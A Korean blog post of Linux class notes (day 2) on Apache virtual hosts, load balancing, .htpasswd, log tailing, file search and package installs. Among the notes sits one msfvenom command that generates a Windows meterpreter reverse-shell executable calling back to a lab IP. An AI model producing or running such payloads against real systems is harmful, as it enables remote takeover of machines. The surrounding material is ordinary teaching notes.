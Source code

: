 ```yaml
---
layout: post
title:  "2일차 Linux 수업정리"
date:   2019-03-23 
categories : unknown
---
```


---
## Virtual host: 하나의 도메인으로 여러 웹 사이트를 운영하는 기법
---
필요조건 - 호스트가 하나거나 도메인이 하나인 경우에 여러 웹 사이트를 운영할 수 있다. (IP-based, Name-based, Port-based 기법 사용)
  
  
  
---
### IP-based 실습
---
<VirtualHost 192.168.100.200:80>
 ServerAdmin admin@localhost
 DocumentRoot /var/www/xyz
 DirectoryIndex index.html
<Directory /var/www/xyz>
 Order allow,deny
 Allow from all
</Directory>
</VirtualHost>
  
  
  
---
### Round Robin, Load Balancing, Fault Tolerance
---
http://192.168.100.129 -> kahn.edu homepage
                   128 ->        "
                   127 ->        "
  
---
  
  
	* pid 관리 중요
	* 랜섬웨어 관련 change root(fake!)
	* sudo는 일시적으로 관리자로 변경
	* su - root 에서 - 붙여야 본인 디렉토리로 이동함
	* selinux는 미 국방부에서 만든것, 고급보안임 (set uid.. sticky bit..)
	* 설정을 다 했는데 인터넷 안되면 nslookup 명령어 
	* echo는 저장된 설정이 있으면 보여줘라 or 파일 만드는 명령어 
  
  
---
## .htpasswd .htaccess
---
> htpasswd -c /etc/httpd/conf/.htpasswd centos
> htpasswd /etc/httpd/conf/.htpasswd ubuntu
  
  
startx -> 그래픽으로 보여주는 명령어
msfvenom -p windows/meterpreter/reverse tcp lhost=192.168.100.131 lport=1234 -f exe > /root/Desktop/shell.exe
  
  
  
---
### 실시간으로 네트워크를 감시하는 명령어 
---
tail -f option! 
tail -f /var/log/syslog
  
백트랙의 해킹도구가 되는 근거는 바로 promiscuous mode
SNMP 네트워크 모니터링 
  
*영원히 접근 못하게 막는 기법*
jail2ban 
fail2ban
  
  
  
---
### 빈파일 만드는 명령어 
---
touch
echo > 
ex) touch xyz
ex) echo > xyzz
  
  
  
---
### 파일찾는 명령어
---
* find / -type f -name passwd (passwd파일을 찾고자 할때)
* locate passwd 
* which passwd (명령어를 찾을때는 which가 좋다)
* whereis passwd (관리자들이 많이 쓴다)
* find /home -type f -size 0 -exec ls -l {} \; (find 시작위치 type 타입 size 크기 exec 명령어)
  
  
  
---
### dpkg -i
---
* Debian 계열의 Debian, Ubuntu는 파일이 *.deb이다.
* dpkg -i *.deb로 설치한다.(별도로 이 *.deb파일을 다운받았을때)
* apt-get install abc하면 abc파일을 설치한다.(바로 웹에서 다운받아서 설치할 때)
* dpkg -r abc로 삭제한다.
* RedHat 계의의 Fedora, CentOS는 파일이 *.rpm,*.tar.gz, *.tar.bz2 이다. 
* tar xvfz *.tar.gz tar xvfj *.tar.bz2해서 설치한다.
  
  
  